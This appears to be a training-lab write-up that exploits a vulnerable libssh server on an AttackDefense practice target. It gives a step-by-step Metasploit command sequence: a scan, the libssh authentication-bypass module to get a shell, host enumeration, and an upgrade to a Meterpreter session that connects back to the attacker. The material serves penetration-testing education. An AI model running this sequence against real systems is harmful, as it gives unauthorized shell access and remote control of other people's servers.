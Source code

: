 # 🔬SSH - MSF Exploit

## Lab 1

>  🔬 [Vulnerable SSH server](https://www.attackdefense.com/challengedetails?cid=448)
>
>  - Target IP: `192.66.211.3`
>  - Exploit the target with the appropriate Metasploit Framework module
>  - [libssh Exploitdb](https://www.exploit-db.com/search?q=libssh)
>  - [libssh Authentication Bypass Scanner](https://www.rapid7.com/db/modules/auxiliary/scanner/ssh/libssh_auth_bypass/)

```bash
ip -br -c a
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.66.211.3
setg RHOST 192.66.211.3
workspace -a libssh
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sS -sV -O 192.66.211.3
```

![db_nmap -sS -sV -O 192.66.211.3](.gitbook/assets/image-20230416142245546.png)

```bash
search libssh_auth_bypass
use auxiliary/scanner/ssh/libssh_auth_bypass
info
# Description:
#   This module exploits an authentication bypass in libssh server code 
#   where a USERAUTH_SUCCESS message is sent in place of the expected 
#   USERAUTH_REQUEST message. libssh versions 0.6.0 through 0.7.5 and 
#   0.8.0 through 0.8.3 are vulnerable. Note that this module's success 
#   depends on whether the server code can trigger the correct 
#   (shell/exec) callbacks despite only the state machine's 
#   authenticated state being set. Therefore, you may or may not get a 
#   shell if the server requires additional code paths to be followed.
options
set SPAWN_PTY true
run
sessions
sessions 3
```

![Metasploit - auxiliary/scanner/ssh/libssh_auth_bypass](.gitbook/assets/image-20230416142702051.png)

- Enumerate some information

```bash
id
cat /etc/*release
uname -r
```

![image-20230416142810774](.gitbook/assets/image-20230416142810774.png)

- Shell to `Meterpreter` post exploitation

```bash
background # or CTRL+Z
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
set SESSION 3
set LHOST eth1
run

sessions
sessions 4
```

![shell_to_meterpreter](.gitbook/assets/image-20230416142923675.png)

------

